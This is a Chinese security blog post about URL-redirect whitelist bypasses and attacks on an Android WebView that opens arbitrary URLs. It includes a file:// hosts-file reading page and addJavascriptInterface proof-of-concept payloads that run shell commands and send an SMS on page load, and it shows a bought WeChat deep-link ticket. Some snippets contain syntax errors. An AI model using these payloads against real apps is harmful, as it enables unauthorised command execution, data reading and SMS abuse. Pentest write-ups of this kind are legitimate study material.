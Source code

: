 ```yaml
---
layout: post
title:  URL跳转到webview安全
date: 2018-12-6 8:25:6.000000000 +08:00
---
```

# 起因
在一次测试中我用burpsuite搜索了关键词url找到了某处url
我测试了一下发现waf拦截了指向外域的请求，那么开始尝试绕过。所以有了这次的文章

# 经过
第一个我测试的url是`https://mall.m.xxxxxxx.com/jump.html?url=https://baidu.com`我打开成功跳转以为跳转成功，**but baidu.com是在白名单的**所以我就只能想办法去绕过他那么我经过了几次绕过之后发现`https://mall.m.xxxxxxx.com/jump.html?url=https:/\c1h2e1.github.io`跳转成功，这是我觉得有必要总结一下url的跳转绕过思路了，那么开始吧！！

# 正文

+	@  绕过
这个是利用了我们浏览器的特性，现在除了Firefox浏览器大部分都可以完成这样跳转下面是跳转的动态图
![aite_redirect]({{ "/assets/images/url/1.gif"|redirect}})

+	问号绕过
可以使用Referer的比如`https://baidu.com` 可以`https://任意地址/?baidu.com`

+	锚点 绕过
利用#会被浏览器解释成HTML中的锚点 `http://127.0.0.1/#qq.com` 

+	xip.io绕过
`http://www.baidu.com.127.0.0.1.xip.io/` 这样之后会访问127.0.0.1

```xip
How does it work?
xip.io runs a custom DNS server on the public Internet.
When your computer looks up a xip.io domain, the xip.io
DNS server extracts the IP address from the domain and
sends it back in the response.
```
![xip]({{ "/assets/images/url/1.png"|xip}})
在公网上运行自定义的dns服务器，用他的服务器提取IP地址，在响应中将他取回

+	反斜杠绕过
我这次测试中也是使用了这种思路
`https://mall.m.xxxxxxx.com/jump.html?url=https:/\c1h2e1.github.io`

+	IP绕过

把目标的URL修改成IP地址，这样也有可能绕过waf的拦截

+	chrome浏览器特性
```
http:/\/baidu.com
http:\//baidu.com
/\/baidu.com
http:\\\//baidu.com
```
这样的都会跳转到百度

#	url跳转到webview安全问题
我们这次的漏洞我在手机上测试的时候发现他会跳转伪协议
也就是`xxxx://app/webview?url=xxxxxxx`
其实这里的任意webview跳转已经构成漏洞了但是我想更加深入一下
看到webview我想到了利用file协议读取用戶的敏感信息那么下面的两篇文章可以补一下基础
[使用app内置webview 打开TextView中的超链接](https://www.jianshu.com/p/2c6c55b48238)

[乌云案例](http://www.anquan.us/static/bugs/wooyun-2015-0114241.html)
我们先用file://协议读取一下测试文件试一下
![host]({{ "/assets/images/url/2.png"|host}})
我们可以看到成功读取了手机的敏感host文件，但不是只要读取成功就能完成利用的，我们还需要设计到发送并读取
这边我又测试了一下JavaScript的情况，发现开启
那么我们在vps上搭建一下利用代码

```html
<html>
<head>
<title>test</title>
</head>
<script>
var xmlHttp;				//定义XMLHttpRequest对象
function createXmlHttpRequestObject(){
	//如果在internet Explorer下运行
	if(window.ActiveXObject){
		try{
			xmlHttp=new ActiveXObject("Microsoft.XMLHTTP");
		}catch(e){
			xmlHttp=false;
		}
	}else{
	//如果在Mozilla或其他的浏览器下运行
		try{
			xmlHttp=new XMLHttpRequest();
		}catch(e){
			xmlHttp=false;
		}
	}
	 //返回创建的对象或显示错误信息
	if(!xmlHttp)
		alert("error");
		else
		return xmlHttp;
}
function ReqHtml(){
	createXmlHttpRequestObject();
	path='file://'
	path1='/system/etc/hosts'
	xmlHttp.onreadystatechange=StatHandler;	//判断URL调用的状态值并处理
	xmlHttp.open("GET",path+path1,false);	//调用test.txt
	xmlHttp.send(null)
	alert(1)
}
function StatHandler(){
	if(xmlHttp.readyState==4 && xmlHttp.status==200){
		document.getElementById("webpage").innerHTML=xmlHttp.responseText;
		alert(xmlHttp.responseText)
	}
}
ReqHtml()
StatHandler()
</script>
<body>
<div id="webpage"></div>
</body>
</html>
```
在app上测试一下发现不成功。。。。
之后才得知是因为同源策略导致的，在网上各种找方法绕过后无果，没办法之好放弃。
虽然这个应用绕不过我们可以mark一点姿势
ps:很多代码都是手码的没写过JS所以可能会有一些错误不要见怪
```html
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }

         var res = execute(["/system/bin/sh", "-c", "ls -al /mnt/sdcard/"]);
         document.write(getContents(res.getInputStream()));
       </script>
   </body>
</html>
```
这个是执行命令的poc
```html
<html>
<head>
<title>Test send</title>
<script type="text/javascript">
function execute() {
	var sendsms = jsInterface.getClass().forName("android.telephony.SmsManager").getMethod("getDefault",null),invoke(null,null);
	sendsms.sendTextMessage("13722555165",null,"get",null,null);
}
</script>
</head>
<body onload="execute()">
<input type="button" onclick="="execute" value="test"/>

</body>
</html>
```
```html
<html>
<head>
<title>Test sendsms</title>
<script type="text/javascript">
function execute() {
	var sendsms = jsInterface.getClass().forName("android.telephony.SmsManager").getMethod("getDefault",null),invoke(null,null);
	sendsms.sendTextMessage("13722555165",null,"get",null,null);
}
</script>
</head>
<body onload="execute()">
<input type="button" onclick="="execute" value="test"/>

</body>
</html>
```

# 突然换目标
这是我想到了weixin的协议
`weixin://`看了官方的文档之后我发现了微信支持如下操作 
```weixin
weixin://dl/general
weixin://dl/favorites 收藏
weixin://dl/scan 扫一扫
weixin://dl/feedback 反馈
weixin://dl/moments 朋友圈
weixin://dl/settings 设置
weixin://dl/notifications 消息通知设置
weixin://dl/chat 聊天设置
weixin://dl/general 通用设置
weixin://dl/officialaccounts 公众号
weixin://dl/games 游戏
weixin://dl/help 帮助
weixin://dl/feedback 反馈
weixin://dl/profile 个人信息
weixin://dl/features 功能插件
```
那。。。我平时打开小xx网站的时候突然弹出的微信是什么鬼
经过一番查找我找到了能够跳转的方法
`weixin://dl/business/?ticket=xxxxxxxxxxxxxxxxx`
那么这个ticket哪里来呢？？？
我在t00ls上看到一篇同样关于这个微信协议的分析他说是有人在卖api我百度了一下找到了这个地址
![seoniao]({{ "/assets/images/url/3.png"|seoniao}})
我们注册并登陆尝试一下跳转
![seoniao]({{ "/assets/images/url/4.png"|seoniao}})
果然还是收费，因为写文章的时候比较早他们可能没有上班所以就换个地方找一下
![redirect]({{ "/assets/images/url/5.png"|redirect}})
我们加一下这个客服的qq
![screenshot]({{ "/assets/images/url/5.png"|screenshot}})
果然是我想象得那样
`
weixin://dl/business/?ticket=taa597ccdcdf00ecb865d9e04904bbff4
`
我们手机打开一下我得测试网页
`<a href="weixin://dl/business/?ticket=taa597ccdcdf00ecb865d9e04904bbff4">demo</a>`
成功打开微信并跳转~~~~

# 反思
在一次普通的漏洞利用中利用姿势绝不会普通，不断积累自己。 
